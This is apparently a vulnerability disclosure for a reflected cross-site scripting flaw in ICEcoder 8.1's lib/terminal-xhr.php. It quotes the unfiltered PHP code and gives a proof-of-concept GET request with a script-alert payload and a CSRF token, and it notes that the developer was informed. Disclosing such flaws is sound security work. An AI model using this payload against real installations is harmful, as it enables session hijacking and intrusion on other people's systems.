


A xss vulnerability in icecoder 8.1.

In file lib/terminal-xhr.php

```php
...
if (false === proc_open_enabled()) {		// Line 46-52
    echo json_encode([
        "output" => returnHTMLPromptCommand($_REQUEST['command'] . "<br><br>Sorry but you can't use this terminal if your proc_open is disabled"),
        "user" => $user,
        "cwd" => $cwd
    ]);
    exit;
}
...
```

Source from `$_REQUEST['command']` and without any filtering, which resulting in XSS.

# Poc

`GET /lib/terminal-xhr.php?command=<script>alert(1)</script>&csrf=f64d3d95dc4af18766d285ff437e4d4f`

The value of csrf can access from index.php


# Manual verification







The developer has been informed of the report via email
